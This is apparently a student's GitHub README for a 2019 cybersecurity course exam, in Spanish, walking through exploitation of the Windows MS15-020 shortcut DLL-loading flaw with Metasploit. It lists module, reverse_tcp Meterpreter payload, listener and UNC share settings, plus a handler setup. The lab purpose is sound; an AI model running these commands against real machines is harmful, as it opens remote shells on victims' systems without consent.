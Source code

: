 # ciberseguridad-2019-1
Repositorio para Ciberseguridad 2019-I
Parcial Ciberseguridad 2019-1 

Juan Esteban Monsalve Echeverry - 1036397191 

Vulnerabilidad 

MS15-020: Una vulnerabilidad en Windows podría permitir la ejecución remota de código 

Las vulnerabilidades podrían permitir la ejecución remota de código si un atacante correctamente convence a un usuario visita un sitio web especialmente diseñado, abra un archivo especialmente diseñado o abrir un archivo en un directorio de trabajo que contiene un archivo DLL especialmente diseñado. 
Publicado: marzo 10, 2015

Sistema Operativo 
Windows XP, Windows 7 

Software 
Sistema opertativo: Kali Linux 
Herramienta: 
Metaexploit 
Instructivo 

msf > use exploit/windows/fileformat/ms15_020_shortcut_icon_dllloader 

msf exploit(ms15_020_shortcut_icon_dllloader) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp 

msf exploit(ms15_020_shortcut_icon_dllloader) > set lhost 192.168.0.11 
lhost=> 192.168.0.11 

msf exploit(ms15_020_shortcut_icon_dllloader) > set UNCHOST 192.168.0.10 
UNCHOST => 192.168.0.10 

msf exploit(ms15_020_shortcut_icon_dllloader) > set UNCSHARE share 
UNCSHARE => share 

msf exploit(ms15_020_shortcut_icon_dllloader) > exploit

----------------------------------------------------------------------------------------------------------
use exploit/multi/handler 

set payload windows/meterpreter/reverser_tcp 

set lhost 192.168.10.1

----------------------------------------------------------------------------------------------------------
Video Demo


----------------------------------------------------------------------------------------------------------

Referencias
http://da1sy.cn/2018/05/MS15-020/
https://github.com/rapid7/metasploit-framework/pull/4911
https://www.rapid7.com/db/vulnerabilities/WINDOWS-HOTFIX-MS15-020
https://www.rapid7.com/db/modules/exploit/windows/fileformat/ms15_020_shortcut_icon_dllloader 
